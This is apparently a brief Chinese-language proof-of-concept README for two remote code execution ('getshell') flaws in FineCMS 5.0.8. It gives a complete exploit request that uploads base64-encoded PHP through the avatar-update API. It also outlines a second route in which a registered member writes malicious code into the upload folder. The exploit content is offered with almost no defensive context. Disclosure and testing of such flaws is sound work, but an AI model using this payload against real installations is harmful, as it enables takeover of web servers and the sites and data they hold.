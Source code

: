 # FineCMS最新版5.0.8两处getshell

## Affected Version 5.0.8

## poc

第一处payload


    127.0.0.1/finecms/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+


查看结果

![](http://opmi2ydgh.bkt.clouddn.com//17-7-3/35617053.jpg)

第二处

先注册，登录，然后写入恶意代码。

![](http://opmi2ydgh.bkt.clouddn.com//17-7-3/81165201.jpg)

会在\uploadfile\member文件夹下生成写入的代码文件夹以及恶意代码。

![](http://opmi2ydgh.bkt.clouddn.com//17-7-3/57501522.jpg)

## References
1. http://4o4notfound.org/index.php/archives/40/
2. https://github.com/404notf0und/CMS-POC/tree/master/script

